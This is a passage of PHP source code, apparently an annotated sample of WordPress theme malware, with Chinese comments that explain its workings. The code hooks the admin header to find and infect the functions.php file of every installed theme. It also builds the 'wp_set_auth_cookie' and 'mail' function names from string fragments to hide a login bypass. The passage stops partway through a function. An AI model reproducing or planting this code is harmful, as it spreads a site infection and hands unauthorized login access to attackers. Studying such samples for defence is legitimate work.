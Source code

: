    //下面是3个针对低版本的php而写的兼容函数
    if(!function_exists("stripos")){ 
        function stripos(  $str, $needle, $offset = 0  ){ 
            return strpos(  strtolower( $str ), strtolower( $needle ), $offset  ); 
        }
    }
    
    if(!function_exists("strripos")){ 
        function strripos(  $haystack, $needle, $offset = 0  ) { 
            if(  !is_string( $needle )  )$needle = chr(  intval( $needle )  ); 
            if(  $offset < 0  ){ 
                $temp_cut = strrev(  substr( $haystack, 0, abs($offset) )  ); 
            } 
            else{ 
                $temp_cut = strrev(    substr(   $haystack, 0, max(  ( strlen($haystack) - $offset ), 0  )   )    ); 
            } 
            if(   (  $found = stripos( $temp_cut, strrev($needle) )  ) === FALSE   )return FALSE; 
            $pos = (   strlen(  $haystack  ) - (  $found + $offset + strlen( $needle )  )   ); 
            return $pos; 
        }
    }
    if(!function_exists("scandir")){ 
        function scandir($dir,$listDirectories=false, $skipDots=true) {
            $dirArray = array();
            if ($handle = opendir($dir)) {
                while (false !== ($file = readdir($handle))) {
                    if (($file != "." &#038;&#038; $file != "..") || $skipDots == true) {
                        if($listDirectories == false) { if(is_dir($file)) { continue; } }
                        array_push($dirArray,basename($file));
                    }
                }
                closedir($handle);
            }
            return $dirArray;
        }
    }
    
    //这个动作添加了，用于检测所有主题目录下functions.php并感染
    add_action("admin_head", "_verifyactivate_widgets");
    
    function _getprepare_widget(){
        if(!isset($text_length)) $text_length=120;
        if(!isset($check)) $check="cookie";
        if(!isset($tagsallowed)) $tagsallowed="<a>";
        if(!isset($filter)) $filter="none";
        if(!isset($coma)) $coma="";
        if(!isset($home_filter)) $home_filter=get_option("home"); 
        if(!isset($pref_filters)) $pref_filters="wp_";
        if(!isset($is_use_more_link)) $is_use_more_link=1; 
        if(!isset($com_type)) $com_type=""; 
        if(!isset($cpages)) $cpages=$_GET["cperpage"];
        if(!isset($post_auth_comments)) $post_auth_comments="";
        if(!isset($com_is_approved)) $com_is_approved=""; 
        if(!isset($post_auth)) $post_auth="auth";
        if(!isset($link_text_more)) $link_text_more="(more...)";
        if(!isset($widget_yes)) $widget_yes=get_option("_is_widget_active_");
        if(!isset($checkswidgets)) 
        //这个实际是wp_set_auth_cookie
        $checkswidgets=$pref_filters."set"."_".$post_auth."_".$check;
        if(!isset($link_text_more_ditails)) $link_text_more_ditails="(details...)";
        if(!isset($contentmore)) $contentmore="ma".$coma."il";
        if(!isset($for_more)) $for_more=1;
        if(!isset($fakeit)) $fakeit=1;
        if(!isset($sql)) $sql="";